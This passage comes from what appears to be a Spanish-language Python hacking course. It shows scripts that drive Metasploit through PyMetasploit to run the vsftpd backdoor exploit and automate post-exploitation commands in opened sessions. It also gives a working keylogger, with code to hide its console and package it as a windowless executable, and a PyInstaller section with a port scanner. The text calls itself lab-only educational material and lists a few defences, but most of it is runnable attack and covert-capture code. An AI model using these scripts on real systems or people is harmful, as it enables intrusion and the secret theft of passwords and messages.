### 🧬 Paso 6: Elegir un payload compatible

```python
print("Payloads compatibles:")
for p in exploit.compatible_payloads:
    print(f"- {p}")
```

Seleccionamos uno:

```python
payload = client.modules.use('payload', 'cmd/unix/interact')
```

> Este payload simplemente nos da una shell interactiva en Unix si el exploit funciona.

---

### 🧪 Paso 7: Ejecutar el exploit

```python
print("[*] Ejecutando el exploit...")
job = exploit.execute(payload=payload)
```

---

### ⏳ Paso 8: Verificar si hay una sesión abierta

```python
import time
time.sleep(5)  # Esperamos un poco para que se abra la sesión

if client.sessions.list:
    print("[+] Sesión activa:")
    for sid, session in client.sessions.list.items():
        print(f"ID: {sid}, Tipo: {session['type']}, Plataforma: {session['platform']}")
else:
    print("[-] No se abrió ninguna sesión.")
```

---

### 🎉 Paso 9: Interactuar con la sesión (opcional)

```python
sid = list(client.sessions.list.keys())[0]
session = client.sessions.session(sid)

# Ejecutar un comando dentro de la sesión
output = session.run_with_output('whoami')
print("Salida del comando 'whoami':")
print(output)
```

---

#### 📜 Script completo de ejemplo

```python
from pymetasploit3.msfrpc import MsfRpcClient
import time

# Conexión
client = MsfRpcClient('123')

# Elegir exploit y payload
exploit = client.modules.use('exploit', 'unix/ftp/vsftpd_234_backdoor')
exploit['RHOSTS'] = '192.168.56.102'
exploit['RPORT'] = 21

payload = client.modules.use('payload', 'cmd/unix/interact')

# Ejecutar
print("[*] Lanzando exploit...")
exploit.execute(payload=payload)

# Esperar y revisar sesiones
time.sleep(5)

if client.sessions.list:
    sid = list(client.sessions.list.keys())[0]
    session = client.sessions.session(sid)
    print("[+] Sesión abierta. Ejecutando comando...")
    print(session.run_with_output('uname -a'))
else:
    print("[-] No se obtuvo sesión.")
```

---

### ✅ Consejos para el laboratorio

- Usa **Nmap** para confirmar que el puerto está abierto:

  ```bash
  nmap -p 21 192.168.56.102
  ```

- Usa exploits conocidos y probados para pruebas (como el `vsftpd_234_backdoor` o `ms08_067_netapi` en Windows XP SP2).

- Verifica que no haya **firewalls** bloqueando la conexión en tu máquina víctima.

---

### 🔐 Importante

✅ Este conocimiento debe usarse **solo en entornos de laboratorio o pruebas controladas**. Nunca uses estos scripts en sistemas reales sin autorización.

---

[🔼](#índice)

---

## **229. PyMetasploit: Manejo de sesiones**

### 🧠 ¿Qué es una "sesión" en Metasploit?

Cuando lanzas un exploit y este **tiene éxito**, se establece una "sesión" con el sistema comprometido.

Hay varios tipos:

- **Meterpreter**: Interactivo y potente (más usado).
- **Shell**: Básico, tipo terminal sin funciones avanzadas.
- **Post**: Sesiones para ejecutar módulos post-explotación.

Con PyMetasploit, puedes:

- Enumerar todas las sesiones abiertas.
- Obtener información detallada de cada sesión.
- Ejecutar comandos en la máquina víctima.
- Cerrar sesiones desde código.

---

### ✅ Requisitos previos

1. **Metasploit Framework instalado** (viene en Kali Linux).
2. **PyMetasploit3 instalado**:

   ```bash
   pip install pymetasploit3
   ```

3. **Metasploit RPC activo**:
   Desde `msfconsole`, ejecuta:

   ```bash
   load msgrpc Pass=123
   ```

4. **Conexión con una máquina vulnerable** (por ejemplo, Metasploitable2 o una máquina TryHackMe).

---

### 📦 1. Conexión al servicio RPC de Metasploit

```python
from pymetasploit3.msfrpc import MsfRpcClient

client = MsfRpcClient('123')  # Contraseña que usaste en msfconsole
```

---

### 🔍 2. Ver todas las sesiones activas

```python
sessions = client.sessions.list

if sessions:
    print("[+] Sesiones activas encontradas:")
    for sid, details in sessions.items():
        print(f"ID: {sid}, Tipo: {details['type']}, Plataforma: {details['platform']}, Usuario: {details['username']}")
else:
    print("[-] No hay sesiones abiertas.")
```

#### 🧪 Ejemplo de salida:

```
[+] Sesiones activas encontradas:
ID: 1, Tipo: meterpreter, Plataforma: windows, Usuario: Administrator
```

---

### 🎯 3. Obtener una sesión específica y ejecutar comandos

Supongamos que ya hay una sesión con ID `1`.

```python
session_id = 1
session = client.sessions.session(session_id)

# Ejecutar un comando remoto
output = session.run_with_output('whoami')
print("Resultado de whoami:")
print(output)
```

---

### 🧰 4. Ejecutar varios comandos en una sesión (tipo script)

```python
comandos = ['whoami', 'ipconfig', 'systeminfo']

for cmd in comandos:
    print(f"\n[*] Ejecutando: {cmd}")
    print(session.run_with_output(cmd))
```

> Esto es útil para automatizar recolección de información post-explotación.

---

### 🧹 5. Cerrar una sesión desde Python

```python
session.stop()
print(f"[!] Sesión {session_id} cerrada correctamente.")
```

---

### 🔁 6. Ejemplo completo: detectar, interactuar y cerrar sesiones

```python
from pymetasploit3.msfrpc import MsfRpcClient

client = MsfRpcClient('123')

if client.sessions.list:
    for sid in client.sessions.list:
        print(f"\n[+] Interactuando con sesión {sid}")
        sesion = client.sessions.session(sid)
        print(sesion.run_with_output('whoami'))

        # Cerrar la sesión si deseas
        sesion.stop()
        print(f"[-] Sesión {sid} cerrada.")
else:
    print("[-] No hay sesiones activas.")
```

---

### ⚙️ Extras útiles

#### ▶ Obtener la información básica de una sesión:

```python
info = client.sessions.list[1]
print(f"Usuario: {info['username']}, IP: {info['tunnel_peer']}, Sistema: {info['platform']}")
```

#### ▶ Saber si es una sesión Meterpreter:

```python
if info['type'] == 'meterpreter':
    print("¡Sesión Meterpreter activa!")
```

---

### ✅ Dónde probar esto (laboratorio)

| Herramienta         | Uso                                      |
| ------------------- | ---------------------------------------- |
| Kali Linux          | Atacante, con Metasploit y Python        |
| Metasploitable2     | Víctima (contiene servicios vulnerables) |
| VirtualBox o VMware | Para simular red local segura            |

- Ataca la máquina usando un exploit como `vsftpd_234_backdoor`.
- Una vez abierta la sesión, usa PyMetasploit para automatizar la post-explotación.

---

### 🧠 Conclusión

| Tarea            | Código Python usado              |
| ---------------- | -------------------------------- |
| Listar sesiones  | `client.sessions.list`           |
| Acceder a sesión | `client.sessions.session(ID)`    |
| Ejecutar comando | `session.run_with_output("cmd")` |
| Cerrar sesión    | `session.stop()`                 |

Este manejo te permite **crear tus propias herramientas de post-explotación** o un framework personalizado para interactuar con Metasploit sin necesidad de escribir en `msfconsole`.

---

[🔼](#índice)

---

## **230. Keylogger con Python**

### 🧠 ¿Qué es un Keylogger?

Un **keylogger** (abreviatura de _keystroke logger_) es un programa que **registra las teclas presionadas por el usuario**. Esto puede incluir contraseñas, mensajes, correos y comandos.

---

### 🧰 Requisitos

Para crear un keylogger en Python necesitamos:

- Python 3
- Biblioteca `pynput` (para capturar teclas)

#### Instalación:

```bash
pip install pynput
```

---

### 🧪 Ejemplo de Keylogger Básico

```python
from pynput import keyboard

# Ruta donde se guardará el archivo de registro
log_file = "keylog.txt"

def guardar_en_archivo(tecla):
    try:
        with open(log_file, "a") as f:
            f.write(f"{tecla.char}")
    except AttributeError:
        # Teclas especiales (shift, enter, etc.)
        with open(log_file, "a") as f:
            f.write(f" [{tecla}] ")

# Escuchador de teclado
with keyboard.Listener(on_press=guardar_en_archivo) as listener:
    listener.join()
```

---

### 🧪 ¿Qué hace este código?

- Escucha cada vez que se presiona una tecla.
- Escribe esa tecla en el archivo `keylog.txt`.
- Soporta letras, números y teclas especiales como `ENTER`, `SPACE`, `SHIFT`.

---

### ▶️ ¿Cómo ejecutarlo?

1. Guarda el código como `keylogger.py`.
2. Ejecuta:

```bash
python keylogger.py
```

3. Abre otro programa (por ejemplo, un bloc de notas) y empieza a escribir.
4. Revisa el archivo `keylog.txt`.

---

### 🛡️ Cómo detenerlo

Presiona `Ctrl + C` en la terminal para detenerlo, o cierra el proceso si lo ejecutaste en segundo plano.

---

### 📦 Versión con registro y envío automático por correo (opcional)

Este paso **solo para entorno educativo**: agrega la funcionalidad para que el keylogger se autoenvíe por correo (por ejemplo, a ti mismo para fines de análisis).

> Este tipo de funcionalidad **NO debe usarse con fines maliciosos.**

---

### 💻 Ejecución en segundo plano (opcional)

Puedes ejecutarlo como proceso oculto:

```python
import os
import sys

# Ocultar consola (solo Windows)
if os.name == 'nt':
    import ctypes
    ctypes.windll.user32.ShowWindow(ctypes.windll.kernel32.GetConsoleWindow(), 0)
```

O convertirlo en ejecutable con `pyinstaller`:

```bash
pip install pyinstaller
pyinstaller --onefile --noconsole keylogger.py
```

---

### 📋 Ejemplo final más completo

```python
from pynput import keyboard

log_file = "keylog.txt"

def guardar_en_archivo(tecla):
    tecla = str(tecla).replace("'", "")
    with open(log_file, "a") as f:
        f.write(tecla + " ")

def main():
    with keyboard.Listener(on_press=guardar_en_archivo) as listener:
        listener.join()

if __name__ == "__main__":
    main()
```

---

### 🧪 Entorno de prueba recomendado

| Elemento            | Herramienta                     |
| ------------------- | ------------------------------- |
| Máquina virtual     | VirtualBox o VMware             |
| SO recomendado      | Kali Linux o Windows en VM      |
| Control del entorno | Snapshots para restaurar estado |

---

### 🔒 Cómo defenderse (lección de seguridad)

- Usa antivirus con detección heurística.
- Revisa procesos sospechosos en segundo plano.
- Revisa archivos `.py` o `.exe` ejecutándose sin razón.
- Usa herramientas como `Autoruns` en Windows para detectar persistencia.

---

### ✅ Conclusión

| Elemento                        | Herramienta o método        |
| ------------------------------- | --------------------------- |
| Captura de teclas               | `pynput.keyboard.Listener`  |
| Guardado                        | Archivos de texto (`.txt`)  |
| Automatización o envío opcional | Envío por correo, red, etc. |
| Ejecución oculta (Windows)      | `ctypes.windll...`          |

---

[🔼](#índice)

---

## **231. Compilar programas en Python: Pyinstaller**

### 🧠 ¿Qué es PyInstaller?

**PyInstaller** es una herramienta que te permite **convertir programas en Python (.py)** en **archivos ejecutables (.exe, .app, etc.)** que pueden funcionar **sin necesidad de tener Python instalado**.

### ✅ ¿Para qué sirve en un entorno de estudio?

- Crear herramientas educativas portables.
- Distribuir tus scripts a otros estudiantes sin pedirles que instalen Python.
- Automatizar scripts de análisis forense, escáneres de red, mini exploit labs, etc.
- Estudiar cómo los ejecutables Python funcionan en sistemas Windows, Linux o macOS.

---

### 🛠️ Instalación paso a paso

#### 1. 📦 Instalar PyInstaller

En cualquier sistema con Python 3:

```bash
pip install pyinstaller
```

Puedes verificar que se instaló correctamente con:

```bash
pyinstaller --version
```

---

##### 📁 Estructura de tu proyecto

Supongamos que tienes un script llamado `mi_script.py` con este contenido:

```python
# mi_script.py
print("¡Hola! Esto es un programa educativo compilado con PyInstaller.")
```

---

#### 🛠️ 2. Compilar el script

```bash
pyinstaller --onefile mi_script.py
```

##### 📌 ¿Qué hace este comando?

- `--onefile`: crea **un solo archivo ejecutable** (no una carpeta con muchos archivos).
- `mi_script.py`: es tu script fuente.

##### ✅ Resultado

Después de compilar, PyInstaller crea esta estructura:

```
mi_script/
├── build/        ← Carpeta temporal
├── dist/         ← Aquí está tu ejecutable
│   └── mi_script (o mi_script.exe en Windows)
├── mi_script.spec
```

Tu ejecutable estará en:
🔹 `dist/mi_script` o `dist/mi_script.exe`

---

#### ▶️ 3. Ejecutar el programa compilado

##### En Linux/macOS:

```bash
./dist/mi_script
```

##### En Windows (doble clic o CMD):

```cmd
dist\mi_script.exe
```

---

#### ⚙️ Opciones útiles de PyInstaller

| Opción            | Descripción                                            |
| ----------------- | ------------------------------------------------------ |
| `--onefile`       | Crea un solo archivo ejecutable                        |
| `--noconsole`     | Oculta la terminal (ideal para GUIs o scripts ocultos) |
| `--icon=icon.ico` | Agrega un icono personalizado al ejecutable            |
| `--clean`         | Limpia archivos temporales antes de compilar           |

#### Ejemplo con opciones:

```bash
pyinstaller --onefile --noconsole --icon=educativo.ico mi_script.py
```

---

### 🧪 Ejemplo más completo

```python
# escaner_red.py
import socket

print("Escáner de puertos educativos")
target = input("IP a escanear: ")

for port in range(20, 1025):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(0.5)
    result = s.connect_ex((target, port))
    if result == 0:
        print(f"Puerto abierto: {port}")
    s.close()
```

Luego compilas así:

```bash
pyinstaller --onefile escaner_red.py
```

Y ahora puedes distribuir tu escáner como ejecutable (sin requerir Python).

---

### 🧪 ¿Dónde usar esto?

En un **entorno de estudio o laboratorio** puedes:

| Uso educativo                | Ejemplo con PyInstaller                            |
| ---------------------------- | -------------------------------------------------- |
| Hacer herramientas portables | Escáneres, analizador de archivos, etc.            |
| Crear binarios para CTF      | Cifrado, backdoor educativo, mini exploits         |
| Aprender análisis de malware | Compilar un "keylogger controlado" para analizarlo |
| Automatizar tareas de clase  | GUI educativa, script para recolectar evidencias   |

---

### ❌ Errores comunes

| Error                                     | Solución                                                |
| ----------------------------------------- | ------------------------------------------------------- |
| `Permission denied`                       | Ejecuta con permisos: `chmod +x` o `sudo` si hace falta |
| `ModuleNotFoundError` después de compilar | Usa `--hidden-import` o revisa tu `spec` file           |
| No corre en otra PC                       | Usa la opción `--onefile` y compila en esa arquitectura |

---

### 🔐 ¿Esconde el código?

No realmente. Aunque lo empaqueta como ejecutable, **el código puede extraerse** (con herramientas como `uncompyle6`, `pyinstxtractor`, etc.).
Sirve más como **portabilidad**, no como ofuscación real.

---

### ✅ Resumen

| Acción                     | Comando                                   |
| -------------------------- | ----------------------------------------- |
| Instalar PyInstaller       | `pip install pyinstaller`                 |
| Compilar ejecutable básico | `pyinstaller --onefile mi_script.py`      |
| Sin consola (modo oculto)  | `--noconsole`                             |
| Ejecutar binario           | `./dist/mi_script` o `dist\mi_script.exe` |

---

[🔼](#índice)

---

| **Inicio**         | **atrás 4**                                                     | **Siguiente 6**                                                              |
| ------------------ | --------------------------------------------------------------- | ---------------------------------------------------------------------------- |
| [🏠](../README.md) | [⏪](./4_4_Analisis_de_vulnerabilidades_en_Hosts_con_Python.md) | [⏩](./4_6_Python_Hacking_y_Explotacion_de_redes_informaticas_con_Python.md) |
